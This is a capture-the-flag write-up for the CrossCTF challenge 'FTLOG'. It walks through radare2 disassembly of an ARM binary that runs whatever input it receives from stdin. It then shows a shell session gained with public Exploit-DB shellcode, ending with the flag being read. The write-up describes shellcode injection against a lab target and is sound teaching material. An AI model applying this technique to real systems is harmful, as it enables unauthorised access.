

# FTLOG

> https://youtu.be/RW2vXFLXtps
>  
> nc ctf.pwn.sg 4004
>  
> Hint: The raspberry Pis might come in handy but you can look at using qemu too.
>  
> Creator - amon (@nn_amon)


The program printed some art, then accepted input, then quit. Since the binary was not stripped, we looked for its `<main>` function in radare2.
```
➜  FTLOG git:(master) ✗ file ftlog 
ftlog: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=c3d8b29303d27686f7190bf2e3d88fc857517a3b, not stripped
```




Let us break it down for you. First, the program allocated `0x200` bytes of memory. The address of the allocated memory was stored in the variable `alloc_mem`.

```
|           0x000105c8      020ca0e3       mov r0, 0x200               ; 512
|           0x000105cc      a94900eb       bl sym.malloc               ;  void *malloc(size_t size)
|           0x000105d0      0030a0e1       mov r3, r0
|           0x000105d4      0c300be5       str r3, [alloc_mem]         ; 0xc ; 12
```

`<mprotect>` made said allocated memory executable, readable and writable.

```
|           0x000105d8      0720a0e3       mov r2, 7                   ; 7
|           0x000105dc      021ca0e3       mov r1, 0x200               ; 512
|           0x000105e0      0c001be5       ldr r0, [alloc_mem]         ; 0xc ; 12
|           0x000105e4      f96000eb       bl sym.__mprotect
```

Then, the program `<read>`s `0x200` bytes from `stdin` into the allocated memory.
```
|           0x000105e8      022ca0e3       mov r2, 0x200               ; 512
|           0x000105ec      0c101be5       ldr r1, [alloc_mem]         ; 0xc ; 12
|           0x000105f0      0000a0e3       mov r0, 0
|           0x000105f4      a55d00eb       bl sym.__read
```

For some reason, the binary decided to store the address of the allocated memory in another variable called `alloc_mem_2`. Both pointer variables `alloc_mem` and `alloc_mem_2` pointed to the same allocated memory.
```
|           0x000105f8      0c301be5       ldr r3, [alloc_mem]         ; 0xc ; 12
|           0x000105fc      08300be5       str r3, [alloc_mem_2]       ; 0x8 ; 8
```

The allocated memory that we wrote into was then executed with the instruction `blx r3`.

```
|           0x00010600      08301be5       ldr r3, [alloc_mem_2]       ; 0x8 ; 8
|           0x00010604      33ff2fe1       blx r3
```

Our input just had to be a shellcode that gives us a shell. We tried our luck with a few shellcodes on Exploit Databases. A simple Google search gave us a few possible options


We tried two shellcodes in our exploit script `soln_ftlong.py`, but they didn't work. Eventually [the third one did](https://www.exploit-db.com/exploits/43520/). 


```
➜  FTLOG git:(master) ✗ python2 soln_ftlong.py
[+] Opening connection to ctf.pwn.sg on port 4004: Done
[... some kinda art ...]
$ whoami
ftlog
$ find . -name "flag"
find: './etc/ssl/private': Permission denied
./home/ftlog/flag
find: './var/lib/apt/lists/partial': Permission denied
find: './var/cache/apt/archives/partial': Permission denied
find: './var/cache/ldconfig': Permission denied
find: './var/spool/cron/crontabs': Permission denied
find: './var/spool/rsyslog': Permission denied
find: './root': Permission denied
find: './proc/tty/driver': Permission denied
find: './proc/1/task/1/fd': Permission denied
find: './proc/1/task/1/fdinfo': Permission denied
find: './proc/1/task/1/ns': Permission denied
find: './proc/1/fd': Permission denied
find: './proc/1/map_files': Permission denied
find: './proc/1/fdinfo': Permission denied
find: './proc/1/ns': Permission denied
$ cat ./home/ftlog/flag
CrossCTF{slowmo_starroving_sugarforthepill_alison}
```
We got the flag.

